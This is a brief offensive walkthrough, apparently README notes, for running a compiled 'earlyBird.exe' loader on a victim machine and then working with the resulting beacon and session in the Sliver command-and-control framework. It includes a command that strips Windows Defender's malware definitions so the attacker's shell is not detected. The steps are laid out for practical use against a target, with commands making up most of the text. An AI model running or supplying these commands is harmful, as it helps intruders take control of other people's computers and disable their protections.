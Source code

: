 # After getting the compiled file to the victim

```bash
.\earlyBird.exe
# Should give our desired output
```

---

# Interact with beacon in sliver

```bash
# with sliver running we should get a message from a beacon
# We need to use the `use` keyword with the beacon id

sliver> use 1c421c2c
sliver (OTHER_SLASH) > interactive
```

---

# Kill Windows Defender on your shell

```bash
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

---

# Get a shell with your sliver session

```bash
# After getting `interactive` we get a session message
sliver (OTHER_SLASH) > use <session-id>
```
